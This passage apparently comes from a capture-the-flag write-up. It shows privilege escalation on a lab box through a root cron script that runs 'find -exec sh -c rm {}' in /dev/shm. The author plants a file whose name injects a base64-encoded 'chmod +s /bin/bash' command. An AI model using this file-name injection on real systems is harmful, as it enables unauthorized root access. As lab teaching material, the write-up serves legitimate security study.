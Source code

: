 So i'll change the perm to executeable `chmod +x pspy` then run it

After some minutes i get that cron is running

```
2023/01/25 23:54:01 CMD: UID=0    PID=6531   | /usr/sbin/CRON -f 
2023/01/25 23:54:01 CMD: UID=0    PID=6534   | 
2023/01/25 23:54:01 CMD: UID=0    PID=6533   | /bin/bash /usr/bin/clean-tmp.sh 
2023/01/25 23:54:01 CMD: UID=0    PID=6532   | /bin/sh -c /bin/bash /usr/bin/clean-tmp.sh 
```

Lets check the content of the file that's being run 

```
jane@assignment:/tmp$ cat /usr/bin/clean-tmp.sh 
#! /bin/bash
find /dev/shm -type f -exec sh -c 'rm {}' \;
jane@assignment:/tmp$
```

Well from this we can conclude that

```
1. Its running `find` command in `/dev/shm` directory 
2. Then it searches for files 
3. And it executes `sh -c 'rm {}' \`
```

Searching the manual of `find -exec`

```
┌──(mark__haxor)-[~]
└─$ man find | grep exec 

-exec command ;
              Execute command; true if 0 status is returned.  All following arguments to find are taken to be arguments to the command until an argument consisting of `;' is encountered.
              The  string  `{}'  is replaced by the current file name being processed everywhere it occurs in the arguments to the command, not just in arguments where it is alone, as in
              some versions of find.  Both of these constructions might need to be escaped (with a `\') or quoted to protect them from expansion by the shell.  See the  EXAMPLES  section
              for  examples  of  the use of the -exec option.  The specified command is run once for each matched file.  The command is executed in the starting directory.  There are un‐
              avoidable security problems surrounding use of the -exec action; you should use the -execdir option instead.
```

From this we can get command injection 

```
jane@assignment:/dev/shm$ echo -n "chmod +s /bin/bash" | base64
Y2htb2QgK3MgL2Jpbi9iYXNo
jane@assignment:/tmp$ touch /dev/shm/'$(echo Y2htb2QgK3MgL2Jpbi9iYXNo | base64 -d | bash)'
jane@assignment:/tmp$ ls /dev/shm
'$(echo Y2htb2QgK3MgL2Jpbi9iYXNo | base64 -d | bash)'
```

So after the cron executes the rm command it will then execute the command in the /dev/shm directory
